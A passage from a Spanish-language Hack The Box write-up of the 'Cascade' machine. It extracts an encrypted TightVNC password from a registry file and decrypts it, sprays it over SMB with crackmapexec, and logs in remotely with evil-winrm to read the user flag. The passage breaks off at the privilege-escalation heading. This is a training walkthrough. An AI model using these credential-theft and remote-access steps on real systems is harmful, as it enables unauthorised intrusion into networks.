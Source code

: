 De los archivos anteriores, el que nos interesa en estos momentos es `VNC Install.reg` que  encontramos en el directorio `Temp` del usuario `s.smith`. Este archivo contiene una contraseña cifrada:

```console
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC]

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server]
"UseMirrorDriver"=dword:00000001
"EnableUrlParams"=dword:00000001
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
"AlwaysShared"=dword:00000000
"NeverShared"=dword:00000000
`````

Para descifrar la contraseña podemos usar el siguiente script [VNC Password Decrypter](https://github.com/jeroennijhof/vncpwd) o [Metasploit](https://github.com/frizb/PasswordDecrypts), finalmente, la contraseña que se obtiene es `sT333ve2`.

Ahora, usaremos `crackmapexec` para probar esa contraseña a qué usuario le pertenece y acceder a Samba. previamente se ha creado un archivo de texto con los usuarios encontrados en la enumeración inicial.

```
root@kali:/home/kali/Documents/HTB/Machines/Cascade/content/# crackmapexec smb 10.10.10.182 -u users.txt -p sT333ve2
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:CASCADE) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [-] CASCADE\administrator:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] CASCADE\rbtgt:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] CASCADE\arksvc:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [+] CASCADE\s.smith:sT333ve2 
```

Con estas credenciales ya podemos acceder con `evil-winrm` para obtener la flag del  usuario.

```
┌─[nicolasmira101@parrot]─[~]
└──╼ $sudo evil-winrm -i 10.10.10.182 -u s.smith -p sT333ve2

Evil-WinRM shell v2.3

*Evil-WinRM* PS C:\Users\s.smith\Documents> whoami
cascade\s.smith
*Evil-WinRM* PS C:\Users\s.smith\Documents> type ../Desktop/user.txt
ca4d32...........................

```



## Escalamiento de privilegios
